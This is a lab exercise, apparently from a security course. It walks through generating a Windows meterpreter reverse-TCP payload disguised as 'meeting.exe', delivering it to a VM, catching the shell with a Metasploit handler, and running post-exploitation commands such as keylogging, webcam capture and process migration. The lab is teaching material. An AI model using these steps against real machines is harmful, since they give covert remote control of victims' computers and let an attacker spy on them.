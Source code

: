 # Creating Malware with Metasploit

## Description
- [Metasploit](https://www.metasploit.com/) can be used to create malware
- Users who run that malware surrender control of their computers


## Equipments
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Tasks

On Kali Linux VM, 🐧, in a command terminal,

1. Create a malware with msfvenom

```bash
# 1.1 find the usage of msfvenom
msfvenom -h

# 1.2 create a malware
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Kali_VM_IP -f exe > meeting.exe

# 1.3 use ftp upload this meeting.exe onto Windows server

# 1.4 set up the attack with msfconsole
# 1.4.1 run msfconsole
# ~$ terminal prompt, msf> msfconsole prompt
~$ msfconsole
msf > help

# 1.4.2 start a command-and-control (C&C) server
msf > use multi/handler
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > exploit
```

On Windows server VM, 🪟

2. double-click meeting.exe to run it


On Kali Linux VM, 🐧, in the previous command terminal, if everything runs smoothly, a meterpreter session should open:

```bash
# 3. Use the meterpreter shell
meterpreter > help
# 3.1 try several commands, such as screenshot, webcam_stream, etc.

# 3.2 migrate to a different process, why should we?
# 3.2.1 list processes
meterpreter > ps

# 3.2.2 migrate to the winlogon process
meterpreter > migrate -N explorer.exe

# Note: if the migration fails, try these steps
meterpreter > exit
meterpreter > exploit
# restart Windows, log in, and run meeting.exe again
# on Kali, 
meterpreter > migrate -N explorer.exe
```

4. Post exploitation

On Kali Linux VM, 🐧 in the successful meterpreter session, 

4.1 try these commands

| command | usage |
| --- | --- |
| screenshot |	Gives you an image of the target's desktop |
| keyscan_start	| Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. |
| keyscan_dump |	Shows the keystrokes captured so far |
| webcam_list |	Shows the available webcams (if any) |
| webcam_snap |	Takes a photo with the webcam |
| shell |	Gives you a Windows Command Prompt on the target |
| exit |	Leaves the Windows Command Prompt |

4.2 find the remote port number that the malware connected

```bash
meterpreter > netstat
```

**Optional**: file transfer method alternative to 1.3

- transfer files with netcat
- transfer files with HTTP

```bash
# 1.3.a  use netcat: netcat is available on Kali VM, 
# it is also installed on windows VM along the installation of zenmap
# On windows vm, in a command prompt, 
netcat -l 2023 > meeting.exe
# On Kali vm, in a command terminal, go to the folder where meeting.exe resides
netcat -w 2 Windows_VM_IP 2023 < meeting.exe

# 1.3.b use Python SimpleHTTPServer which is available on Kali VM,
# On Kali vm, in a command terminal, go to the folder where meeting.exe resides
python -m SimpleHTTPServer 80

# On windows vm, run Google Chrome browser, type the URL: http://Kali_VM_IP
# then download meeting.exe
```

# Reference
- [samsclass Project 4: Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/123p4msf.htm)
- [Use Netcat to Transfer Files](https://linuxhint.com/use-netcat-to-transfer-files/)
- [How to use Python SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver)